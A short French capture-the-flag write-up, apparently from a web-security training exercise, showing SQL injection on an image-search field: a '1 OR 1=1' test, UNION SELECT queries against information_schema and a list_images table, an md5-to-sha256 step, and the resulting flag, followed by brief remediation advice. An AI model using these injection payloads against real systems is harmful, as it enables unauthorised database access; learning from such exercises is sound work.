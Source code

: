 # Recherches

1. Test de la requête `1 OR 1=1` dans l'input retourne toute la liste
2. Elément suspect `Hack me ?`
3. Lister les colonnes
   ```
   1 UNION SELECT TABLE_NAME, COLUMN_NAME FROM information_schema.columns
   ```
4. Afficher le contenu des autres colonnes
   ```
   1 UNION SELECT title, comment FROM list_images
   ```
5. `If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46`
6. `md5(1928e8083cf461a51303633093573c46) == "albatroz"`
7. `sha256(albatroz) = f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

> FLAG: f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

# Explications

Les failles sql sont courantes dans les applications qui ne sécurisent pas leurs entrées.

# Corrections

Pour éviter les failles sql plusieurs choses sont nécessaires:
     - mises à jour fréquentes de la db SQL
     - sanitize les entrées utilisateurs

